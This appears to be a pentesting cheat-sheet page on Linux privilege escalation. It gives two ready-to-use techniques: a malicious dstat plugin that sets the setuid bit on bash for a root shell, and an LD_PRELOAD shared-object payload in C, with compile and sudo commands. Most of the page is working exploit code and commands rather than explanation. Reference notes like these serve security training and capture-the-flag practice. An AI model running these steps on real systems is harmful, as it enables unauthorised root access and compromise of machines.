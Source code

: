```yaml
---
id: privilige-escalation
title: 🔒 Privilege escalation
---
```


# Privilege escalation

### dstat

If dstat can be run as root it is possible to write a new plugin to make some actions like the root inside the system.

Using LinPeas the output should be something like this:

```
permit nopass <user> as root cmd /usr/bin/dstat
```

<p align="center">
    <img width="70%" src={require("./assets/dstat.png").default}></img>
</p>

New plugins can be written inside the folder `/usr/local/share/dstat`

The filename format should be `dstat_<plugin_name>.py` like `dstat_hack.py`

```sh
vi /usr/local/share/dstat/dstat_hack.py
```

This could be the content of the file

```py
import os
os.system('chmod +s /usr/bin/bash')
```

This code once executed activates the setuid bit of bash making it runnable as root.

Now, it is possible to run the custom plugin and become root.

```
sudo /usr/bin/dstat --hack
bash -p
```

### LD_PRELOAD trick

You can use this trick if the user has access to a binary or a script with sudo privilege.

Also there must be no specific override of the LD_PRELOAD variable. You can check it by using the command `sudo -l`.

```c title="shell.c"
void _init()
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    execl("/bin/sh", "-sh", 0);
}
```

To compile use this command:

```sh
gcc -shared -fPIC -nostartfiles -o shell.so shell.c
```

Finally, run the file with privileges prepended with the new library

```sh
sudo LD_PRELOAD=/tmp/shell.so <PATH>
```
